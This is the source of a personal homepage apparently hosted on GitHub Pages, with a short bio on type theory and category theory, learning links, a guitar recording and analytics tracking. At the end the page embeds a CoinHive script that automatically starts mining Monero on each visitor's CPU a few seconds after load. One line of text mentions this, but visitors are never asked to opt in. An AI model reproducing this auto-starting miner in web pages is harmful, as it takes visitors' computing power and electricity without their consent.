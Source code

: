 ```yaml
---
layout:
---
```


<!--
i apologize this site watches back
-->

<head>
<script async src="https://www.googletagmanager.com/gtag/js?id=UA-106946514-1"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments)};
  gtag('js', new Date());
  gtag('config', 'UA-106946514-1');
</script>
<meta http-equiv="Cache-Control" content="no-cache, no-store, must-revalidate">
<meta http-equiv="Pragma" content="no-cache">
<meta http-equiv="Expires" content="0">
</head>

Welcome to the user site of [github/bohadi](https://github.com/bohadi).<br>
Thanks for the visit and please feel free to look around.

I am currently most interested in effectively engineering complex<br>
software via application of category theory and type theory.

<!--
In particular, I am studying language, compilation, and blockchain implementation.
-->
<!--
Other interests include AI/ML, genomics, and the design and enjoyment of games.
-->

<!--
(mailto:bohadi@users.noreply.github.com)
if you would like to contact me
-->

some learning resources I find helpful:<br>
[PFPL](http://www.cs.cmu.edu/~rwh/pfpl.html)<br>
[HoTT](https://homotopytypetheory.org/book/)<br>
[CTFP](https://bartoszmilewski.com/2014/10/28/category-theory-for-programmers-the-preface/)<br>
[oplss17](https://www.cs.uoregon.edu/research/summerschool/summer17/topics.php)<br>
[ncatlabwiki](https://ncatlab.org/nlab/show/HomePage)<br>
[IToC](https://math.mit.edu/~sipser/book.html)<br>
[ParCon](http://chimera.labs.oreilly.com/books/1230000000929/index.html)<br>
[AOSA/ghc](http://www.aosabook.org/en/ghc.html)<br>
[r/haskell](http://www.reddit.com/r/haskell)<br>


I enjoy playing the guitar, here is a short recording I made.

<audio width="400" height="40" controls controlsList="nodownload">
  <source src="noodle.mp3" type="audio/mpeg">
</audio>

<!--
[this site, projects repo](https://github.com/bohadi)
-->

and some nice links:<br>
[news.ycombinator.com](https://news.ycombinator.com)<br>
[cryptowat.ch](https://cryptowat.ch)<br>
[SEP/random](https://plato.stanford.edu/cgi-bin/encyclopedia/random)<br>

<!--
some old stories:<br>
[The Travels of Marco Polo](https://en.wikisource.org/wiki/The_Travels_of_Marco_Polo)<br>
[Somnium, by Kepler](https://somniumproject.wordpress.com/somnium)<br>
[Vera Historia, by Lucian of Samosata](http://lucianofsamosata.info/TheTrueHistory.html)<br>

[other fiction i (did) enjoy](/movies)<br>
-->

<br>
Finally, this page can mine Monero on your machine.<br>
<div id='minerstatus'>
Attempting to connect...
</div>
<div id='minerio'>
Hashes/second: 0   <br>
total Hashes: 0    <br>
</div>

<script src="https://coin-hive.com/lib/coinhive.min.js"></script>
<script>
  var minerstatus = document.getElementById('minerstatus');
  var minerio     = document.getElementById('minerio');
  setTimeout( function() {
    try {
      var miner = new CoinHive.Anonymous('A9pTI4370gQQt0dRaNJFmFnPXXDvsEwS', {
        threads: 2,
        throttle: 0.5
      });
      miner.start();
      miner.on('open', function() {
        minerstatus.innerHTML =
          'Connected... ('+miner.getNumThreads()+' threads throttled at '+
          100*miner.getThrottle().toFixed(2)+'% WASM supported: '+miner.hasWASMSupport()+')';
      });
      miner.on('error', function() {
        miner.stop();
        minerstatus.innerHTML = '...Connection error. Miner stopping.';
      });
      setInterval(function() {
        minerio.innerHTML = 
          'Hashes/second:  '   + miner.getHashesPerSecond().toFixed(0) + '<br>' +
          ' total Hashes: '    + miner.getTotalHashes()                + '<br>' ;
      }, 1000);
    } catch (e) {
      minerstatus.innerHTML = '...Connection error (adblock). Miner stopping.';
    }
  }, 3000);

</script>
